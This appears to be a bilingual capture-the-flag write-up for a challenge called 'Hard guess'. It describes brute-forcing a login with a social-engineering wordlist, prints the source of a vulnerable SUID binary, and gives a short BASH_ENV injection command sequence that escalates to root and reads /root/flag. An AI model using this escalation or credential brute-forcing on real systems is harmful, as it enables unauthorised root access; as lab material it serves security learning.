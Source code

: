 ## Hard guess

生成社工字典并爆破出用户名密码为`KatoMegumi:Megumi960923` ，根据题目描述 `flag` 在 `/root` ，那么思路是提权，`suid` 位找到 `/opt/hello` ，下载出来 ida 得到代码如下（我这里直接给源代码了，跟 ida 出来的伪代码几乎一样）：

```c
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>

int main(){
    setuid(0);
    setgid(0);
    char choice = 'n';
    printf("Are you Tomoya?\ny/n:\n> ");
    scanf("%c", &choice);

    if (getenv("LD_PRELOAD"))
        unsetenv("LD_PRELOAD");
    if (getenv("LD_LIBRARY_PATH"))
        unsetenv("LD_LIBRARY_PATH");
    if (getenv("LD_AUDIT"))
        unsetenv("LD_AUDIT");
    if (getenv("LD_DEBUG"))
        unsetenv("LD_DEBUG");
    if (getenv("LIBRARY_PATH"))
        unsetenv("LIBRARY_PATH");

    setenv("PATH", "/bin", 1);

    if (choice == 'y')
        system("echo 'Hello!'");
    else if (choice == 'n')
        system("bash -c \"echo 'Who are you?'\"");
    else
        printf("emm? ...");
    return 0;
}
```

环境变量注入提权

```bash
bash
export BASH_ENV=/tmp/a
echo "cat /root/flag" > /tmp/a
chmod +x /tmp/a
/opt/hello
n
```

Generage social engineering dictionary and found the username and password is `KatoMegumi:Megumi960923`. According to the description of the topic, `flag` is in `/root`, so the idea is to get the root. `suid` bit found `/opt/hello`, download it and get the source code as follows (I gave the source code directly here, almost the same as the pseudo code from ida):

```c
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>

int main(){
    setuid(0);
    setgid(0);
    char choice = 'n';
    printf("Are you Tomoya?\ny/n:\n> ");
    scanf("%c", &choice);

    if (getenv("LD_PRELOAD"))
        unsetenv("LD_PRELOAD");
    if (getenv("LD_LIBRARY_PATH"))
        unsetenv("LD_LIBRARY_PATH");
    if (getenv("LD_AUDIT"))
        unsetenv("LD_AUDIT");
    if (getenv("LD_DEBUG"))
        unsetenv("LD_DEBUG");
    if (getenv("LIBRARY_PATH"))
        unsetenv("LIBRARY_PATH");

    setenv("PATH", "/bin", 1);

    if (choice == 'y')
        system("echo 'Hello!'");
    else if (choice == 'n')
        system("bash -c \"echo 'Who are you?'\"");
    else
        printf("emm? ...");
    return 0;
}
```

Environment variable injection to get root

```bash
bash
export BASH_ENV=/tmp/a
echo "cat /root/flag" > /tmp/a
chmod +x /tmp/a
/opt/hello
n
```